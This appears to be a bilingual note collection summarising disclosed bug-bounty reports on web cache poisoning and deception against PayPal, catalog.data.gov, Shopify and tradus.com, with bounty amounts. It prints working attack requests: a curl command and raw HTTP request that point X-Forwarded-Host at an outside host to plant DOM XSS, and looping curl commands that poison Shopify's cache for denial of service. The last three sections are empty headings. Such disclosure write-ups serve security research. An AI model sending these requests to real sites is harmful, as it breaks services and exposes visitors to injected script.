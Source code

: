 ## DoS on PayPal via web cache poisoning
### Summary
On [https://paypal.com/](https://paypal.com/), you could impact core functionality by using an invalid Transfer-Encoding header to replace JavaScript files from [www.paypalobjects.com](http://www.paypalobjects.com/) with the message '501 Not Implemented'. This was patched and awarded a $9,700 bounty.

### Steps
1. 插件搜索
2. Transfer-Encoding头会导致501 Not Implemented”替换www.paypalobjects.com中的关键JavaScript文件来破坏核心功能

### Impact
1. DOS
2. 9500$💵


## Defacement of catalog.data.gov via web cache poisoning to stored DOMXSS
### Summary
根本问题是服务器信任X-Forwarded-Host HTTP头，并使用它来填充body标记上的“data-site-root”和“data-locale-root”属性。然后，某些JavaScript从这些属性中指定的URL获取JSON文件，并将响应写入页面而不对其进行转义，从而导致DOMXSS漏洞。

### Step
1. curl格式
```code
curl -i -s -k -X $'GET' \
-H $'Host: catalog.data.gov' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: /' -H $'Accept-Language: en' -H $'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' -H $'x-forwarded-host: portswigger-labs.net/catalog.data.gov_json_xss/json.php?' -H $'Connection: close' \
$'https://catalog.data.gov/dataset/consumer-complaint-database?dontpoisoneveryone=6' > /dev/null
```
2. http raw格式
```code
GET /dataset/consumer-complaint-database?dontpoisoneveryone=6 HTTP/1.1
Host: catalog.data.gov
Accept-Encoding: gzip, deflate
Accept: /
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
x-forwarded-host: portswigger-labs.net/catalog.data.gov_json_xss/json.php?
Connection: close


```
3. 访问中毒页面：https://catalog.data.gov/dataset/consumer-complaint-database?dontpoisoneveryone=6 弹窗
### Impact
750$💵

## https://themes.shopify.com Host header web cache poisoning lead to DoS
### Summary
Poison your cache with HTTP header Host header with arbitrary PORT which is not opened. This attack may lead to Denial of Services

### Steps
1. `while true; do curl -ik "[https://themes.shopify.com:443/?g4mm4=hitthecache"](https://themes.shopify.com/?g4mm4=hitthecache%22) -H "Host: themes.shopify.com:1337"|grep ":1337"; sleep 0;echo 1; done`
2. `while true; do curl -ik "[https://themes.shopify.com:443/"|grep](https://themes.shopify.com/%22%7Cgrep) ":1337"; done`

### Impact
$2,900💵


## web cache deception in https://tradus.com lead to name/user_id enumeration and other info



## Web cache poisoning attack leads to user information and more



## Web cache deception attack - expose token information


